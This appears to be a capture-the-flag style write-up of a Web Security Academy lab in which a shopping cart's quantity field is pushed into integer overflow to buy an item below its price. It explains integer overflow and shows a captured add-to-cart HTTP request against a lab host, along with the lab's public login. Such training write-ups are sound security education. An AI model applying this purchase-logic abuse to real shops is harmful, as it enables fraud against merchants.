







# Lab: Low-level logic flaw

## Lab Description

This lab doesn't **adequately validate user input**. You can exploit a logic flaw in its **purchasing workflow to buy items for an unintended price**. To solve the lab, buy a "Lightweight l33t leather jacket".

You can log in to your own account using the following credentials: `wiener:peter`

## Lab Solution

**Lessons Learned**: Integer overflow is tricky to notice, but it can have disastrous results on special occasions.

**What is integer overflow?**

In programming languages, integers are typically allocated a specific number of bits in memory to store numeric values. For instance, a 32-bit integer data type reserves space to hold an unsigned integer ranging between 0 and 4,294,967,295 or a signed integer within the range of −2,147,483,648 to 2,147,483,647.

Because integers are signed by default, an integer overflow can lead to unexpected consequences when a value exceeds the maximum limit. This overflow might cause a change in the signedness of the integer, resulting in intriguing effects on the following code execution.





**HTTP Request maximum quantity to add is possible**

```
POST /cart HTTP/2
Host: 0ad7000404323496814d52450012005d.web-security-academy.net
Cookie: session=CrsoleHBAC769LZVuMvXNb5zziN2pUrY
Content-Length: 37
Cache-Control: max-age=0
Sec-Ch-Ua: "Not_A Brand";v="8", "Chromium";v="120"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0ad7000404323496814d52450012005d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ad7000404323496814d52450012005d.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i

productId=1&redir=PRODUCT&quantity=99
```














https://medium.com/@d.harish008/business-logic-vulnerabilities-low-level-logic-flaw-f308a21a945d
https://www.acunetix.com/blog/web-security-zone/what-is-integer-overflow/
https://www.cs.utexas.edu/~shmat/courses/cs361s/blexim.txt
